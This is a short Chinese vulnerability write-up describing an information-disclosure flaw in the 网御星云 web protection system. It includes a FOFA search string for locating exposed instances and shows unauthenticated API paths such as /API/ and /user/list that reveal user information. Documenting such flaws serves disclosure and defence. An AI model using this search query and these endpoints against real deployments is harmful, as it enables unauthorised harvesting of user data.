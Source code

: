# 网御星云-web防护系统-信息泄露漏洞

## 漏洞描述

网御星云 web防护系统 存在信息泄露漏洞，通过访问特殊的Url获取部分敏感信息

## 漏洞影响

> [!NOTE]
>
> 网御星云

## FOFA

> [!NOTE]
>
> title="网页防篡改系统"

## 漏洞复现

登录页面如下

![image-20210615154709758](网御星云-web防护系统-信息泄露漏洞.assets/1627363151581635.jpg)

访问 

```
http://xxx.xxx.xxx.xxx/API/
```

![image-20210615154739222](网御星云-web防护系统-信息泄露漏洞.assets/1627363151793688.jpg)

部分 API请求 不需要登录即可访问获取信息，例如 **/user/list**

![image-20210615154821665](网御星云-web防护系统-信息泄露漏洞.assets/16273631520826051.jpg)